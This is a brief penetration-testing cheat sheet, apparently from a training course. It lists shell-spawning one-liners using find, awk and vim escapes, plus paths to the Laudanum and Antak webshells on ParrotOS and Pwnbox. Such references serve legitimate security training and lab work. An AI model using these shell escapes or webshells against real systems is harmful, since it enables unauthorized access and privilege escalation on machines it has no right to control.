 #### Find Command for Shell Spawning

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}\;'
find . -exec /bin/sh \; -quit
```

#### Vim Shell Escape

```bash
vim -c ':!/bin/sh'
```

#### Web Shell Locations

#### Laudanum Webshells on ParrotOS and Pwnbox

```bash
/usr/share/webshells/laudanum
```

#### Antak Webshell on ParrotOS and Pwnbox

```bash
/usr/share/nishang/Antak-WebShell
```
